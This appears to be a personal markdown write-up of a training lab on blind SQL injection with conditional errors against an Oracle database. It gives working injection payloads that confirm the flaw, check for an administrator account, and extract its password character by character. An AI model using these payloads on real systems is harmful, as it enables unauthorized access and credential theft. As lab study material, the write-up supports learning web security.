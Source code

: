 # Lab 12 - Blind SQL injection with conditional errors

since this oracle database we will use different information sechame and operators

## 1) Confirm that the parameter is vulnerable to blind SQLi
by using payload
' || (select '' from dual) || '
the response have no error code which is okay 
if we try something wrong i see error
like ' || (select '' from dualsaasaasasassa) || '

## 2) Confirm that we have a users and administrator user in table
' || (select '' from users where rownum =1) || ' 
we have no error
then 
' || (select '' from users where username='administrator') || ' 
there's no error

##  3) bruteforce the password character by character 
3'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

![image](https://github.com/user-attachments/assets/846b2816-119f-4bf7-b615-9175819904f8)
